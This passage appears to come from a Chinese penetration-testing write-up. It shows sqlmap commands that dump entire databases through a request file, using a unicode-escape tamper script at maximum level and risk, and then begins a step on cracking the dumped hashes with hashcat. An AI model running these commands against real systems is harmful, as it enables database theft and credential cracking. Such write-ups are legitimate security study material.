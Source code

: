 ## Dump用户

使用sqlmap来跑数据  
sqlmap -r sqlmap.txt --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch--proxy [http://127.0.0.1:8080](http://127.0.0.1:8080/) --dump-all--exclude-sysdbs

[![](assets/1705974590-9e8c0b762107bf09600190216618c633.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121223241-eebb4c6a-b869-1.png)

成功跑出数据库  
sqlmap -r colleagues.request --tamper=charunicodeescape --delay 5 --level 5 --risk 3 --batch--proxy [http://127.0.0.1:8080](http://127.0.0.1:8080/) --dump-all--exclude-sysdbs

[![](assets/1705974590-527cba340cc53b5342103ca4642fda91.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121223249-f3fc205a-b869-1.png)

## 破解哈希值

使用hashcat来爆破hash
